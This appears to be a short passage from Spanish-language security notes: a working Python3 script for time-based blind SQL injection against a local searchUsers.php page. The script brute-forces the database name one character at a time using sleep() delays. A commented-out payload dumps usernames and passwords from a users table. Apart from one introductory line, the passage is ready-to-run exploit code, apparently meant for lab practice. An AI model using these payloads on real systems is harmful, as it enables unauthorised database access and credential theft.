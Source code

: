 
* **SQL Time**: Parra este caso debemos de hacer el Script en Python3
```python 
#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def MakeSQLI():
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Datos extraidos")
    extrated_info = ""

    for position in range(1, 150):
        for character in range(33, 126): # El 1 de abajo es un valor que si existe
            sqli_url = main_url + "?id=1 and if(ascii(substr(database(),%d,1))=%d,sleep(0.35),1)" % (position, character)
           #sqli_url = main_url + "?id=1 and if(ascii(substr((select group_concat(username,0x3a,password) from users),%d,1))=%d,sleep(0.35),1)" % (position, character)
            p1.status(sqli_url)
            time_start = time.time()
            r = requests.get(sqli_url)
            time_end = time.time()
            if time_end - time_start > 0.35:
                extrated_info += chr(character)
                p2.status(extrated_info)
                break

if __name__ == '__main__':
    MakeSQLI()
```



